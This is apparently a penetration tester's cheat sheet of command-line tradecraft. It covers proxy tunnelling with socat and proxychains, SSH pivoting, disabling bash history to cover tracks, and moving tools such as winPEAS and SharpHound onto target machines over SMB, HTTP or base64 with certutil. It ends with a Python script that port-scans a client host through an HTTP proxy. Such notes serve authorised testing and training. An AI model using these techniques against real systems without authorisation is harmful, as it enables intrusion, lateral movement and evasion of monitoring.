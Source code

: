 ## Find the meaning of unknown error codes with certutil:
`certutil -error <error_id>`

## Access HTTPS proxy with proxychains:
Proxychains supports SOCKS4, SOCKS5 and HTTP but not HTTPS.  
Using socat to create an HTTPS tunnel between a local port and a remote proxy:  
`socat TCP-LISTEN:19999,bind=127.0.0.1,fork,reuseaddr OPENSSL:proxy.yolo.com:8000,verify=0`  
(verify=0 to bypass certificate errors, for example self-signed client certificate)  

Then in `/etc/proxychains.conf` :
`http 127.0.0.1 19999`

From <https://github.com/rofl0r/proxychains-ng/issues/337>  
  
## SSH Pivoting/Tunneling 
- Use `sshuttle` : https://github.com/sshuttle/sshuttle  
- Use `ssh` + `proxychains` :  
  `ssh -D 9999 john@10.10.110.50`
  Then `proxychains <command>`   
  (with the config `socks4 127.0.0.1 9999` in the `proxychains4.conf` file)  


 ## Easily mount a shared folder between host & VM in virtualbox: 
 `mkdir Shared_VMs`  
 `sudo mount -t vboxsf Shared_VMs Shared_VMs`  
           
 ## Leave a command running when the SSH session is disconnected with `nohup`:  
`nohup nmap -Pn -A -p- -oA results_nmap 192.168.210.10-20 &exit`   
   
## Temporarily turn off bash history:  
`unset HISTFILE`  
`set +o history`   
  
## File transfer techniques: 
### Using SMB:  
`impacket-smbserver share .`  
Then `//10.10.14.108/share/winPEASx64.exe searchall cmd`    
  
### Using python:  
`python2 -m SimpleHTTPServer <PORT>`  
`python3 -m http.server <PORT>`  
  
### Using a compiled binary for Windows:  
`pip install pyinstaller`  
`pyinstaller web.py --onefile`  
  
`web.exe <PORT>`  
  
### Using base64 encoding:  
Attacker-side (Linux). Newlines can be trimmed on Linux using `sed` or `tr`.     
`base64 -w 0 <FILE> | xclip -selection clipboard`  
or `cat SharpHound.exe | base64 | tr -d '\n' > b64Sharphound.txt`  
    
Attacker-side (Windows). Newlines can be trimmed on Linux using `sed` or `tr`.  
`certutil -encode <FILE> tmp_file_base64.txt`  
`sed ':a;N;$!ba;s/\n//g' <FILE>`  
  
Target-side - Linux  
`echo '<BASE64_FILECONTENT>' | base64 --decode > <OUTPUT_FILE>`  
  
Target-side - Windows  
`echo <BASE64_FILECONTENT> > tmp_file_base64.txt`  
`certutil -decode tmp_file_base64.txt <OUTPUT_FILE>`  
`del tmp_file_base64.txt`  
*(Several techniques are from <https://notes.qazeer.io/general/file_transfer>)*    
  
## Portscan behind a HTTP proxy (by @iansus):     
```
#!/usr/bin/python3
 
import socket
 
PROXY = 'proxy.client'
PROXYPORT = 8080
 
def portscan(domain, port):
 
    s = socket.socket()
    s.connect((PROXY, PROXYPORT))
    
    payload1 = 'CONNECT %(host)s:%(port)d\r\nHost: %(host)s:%(port)d\r\n\r\n' % {'host':domain, 'port':port}
    s.send(bytes(payload1, 'utf-8'))
    data = s.recv(1024)
    assert(b'HTTP/1.1 200' in data)
    
    s.settimeout(0.5)
    payload2 = 'GET / HTTP/1.1\r\nHost: %(host)s:%(port)d\r\n\r\n' % {'host':domain, 'port':port}
    
    s.send(bytes(payload2, 'utf-8'))
    s.recv(1024)
    
 
domain = 'appli.client.fr'
portstr = '7,9,13,21-23,25-26,37,53,79-81,88,106,110-111,113,119,135,139,143-144,179,199,389,427,443-445,465,513-515,543-544,548,554,587,631,646,873,990,993,995,1025-1029,1110,1433,1720,1723,1755,1900,2000-2001,2049,2121,2717,3000,3128,3306,3389,3986,4899,5000,5009,5051,5060,5101,5190,5357,5432,5631,5666,5800,5900,6000-6001,6646,7070,8000,8008-8009,8080-8081,8443,8888,9100,9999-10000,32768,49152-49157'
 
ports = []
for portdef in portstr.split(','):
    if not '-' in portdef:
        ports.append(int(portdef))
        
    else:
        start, end = map(int, portdef.split('-'))
        ports += range(start, end+1)
 
 
for port in ports:
    try:
        portscan(domain, port)
        print('Port %d is open on %s' % (port, domain))
        
    except Exception as e:
        print('Port %d is closed on %s (%s)' % (port, domain, str(e)))
        
```
